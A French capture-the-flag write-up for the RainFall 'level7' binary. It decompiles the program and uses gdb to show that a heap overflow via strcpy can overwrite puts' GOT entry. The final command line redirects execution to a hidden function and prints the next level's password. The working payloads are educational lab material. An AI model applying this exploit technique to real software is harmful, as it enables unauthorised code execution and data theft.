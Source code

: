 # Level7

```
level7@RainFall:~$ ./level7
^CSegmentation fault (core dumped)
level7@RainFall:~$ ./level7 coucou
^CSegmentation fault (core dumped)
level7@RainFall:~$ ./level7 coucou coucou
~~
level7@RainFall:~$ ./level7 coucou coucou coucou
~~
```
Ce nouveau programme prend en parametre les arguments donnés au programme.

Décompilons avec ghidra.
```
void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)
{
  time_t tVar1;

  tVar1 = time((time_t *)0x0);
  printf("%s - %d\n",c,tVar1);
  return;
}

undefined4 main(undefined4 param_1,int param_2)
{
  undefined4 *puVar1;
  void *pvVar2;
  undefined4 *puVar3;
  FILE *__stream;

  puVar1 = (undefined4 *)malloc(8);
  *puVar1 = 1;
  pvVar2 = malloc(8);
  puVar1[1] = pvVar2;
  puVar3 = (undefined4 *)malloc(8);
  *puVar3 = 2;
  pvVar2 = malloc(8);
  puVar3[1] = pvVar2;
  strcpy((char *)puVar1[1],*(char **)(param_2 + 4));
  strcpy((char *)puVar3[1],*(char **)(param_2 + 8));
  __stream = fopen("/home/user/level8/.pass","r");
  fgets(c,0x44,__stream);
  puts("~~");
  return 0;
}
```

Une fonction "m" n'est pas appelée par le programme main. Celui-ci stock les adresses des arguments passés sur le tas avec la fonction strcpy. Nous allons exploiter un overflow sur cette fonction.
Commençons par vérifier a quel endroit de la mémoire nous pouvons écraser l'adresse de retour.

```
(gdb) run <<< $(python -c 'print("A" * 50)') $(python -c 'print("A" * 50)')
Starting program: /home/user/level7/level7 <<< $(python -c 'print("A" * 50)') $(python -c 'print("A" * 50)')

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8aa8 in ?? () from /lib/i386-linux-gnu/libc.so.6
```
Nous n'avons pas écrasé l'adresse de retour avec notre buffer overflow.

En revanche lorsqu'on inspecte les registres :
```
(gdb) info registers
eax            0x41414141	1094795585
ecx            0x0	0
edx            0x41414141	1094795585
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff6dc	0xbffff6dc
ebp            0xbffff708	0xbffff708
esi            0x0	0
edi            0x0	0
eip            0xb7eb8aa8	0xb7eb8aa8
eflags         0x200286	[ PF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
Nous avons écrasés les valeurs de eax et edx.

Puis nous inspectons la fonction puts utilisée après:
```
0x080485f7 <+214>:	call   0x8048400 <puts@plt>

(gdb) x/i 0x08048400
   0x8048400 <puts@plt>:	jmp    *0x8049928
```
Après s'etre documenté, nous savons que le programme stocke l'appel de chaque fonction dans la GOT (Global Offset Table) ce qui permet au prochains appels de cette fonction, de ne pas aller chercher a chaque fois dans la bibliotèque standart C.

Nous allons donc avec écraser l'adresse de retour de la GOT de la fonction puts, pour qu'elle pointe vers la fonction "m", en ajoutant un offset de 20 caracteres + l'adresse de puts dans le 1er strcpy, et simplement l'adresse de "m" dans le deuxieme strcpy.

```
level7@RainFall:~$ /home/user/level7/level7 $(python -c 'print ("A"*20 + "\x28\x99\x04\x08")') $(python -c 'print ("\xf4\x84\x04\x08")')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```


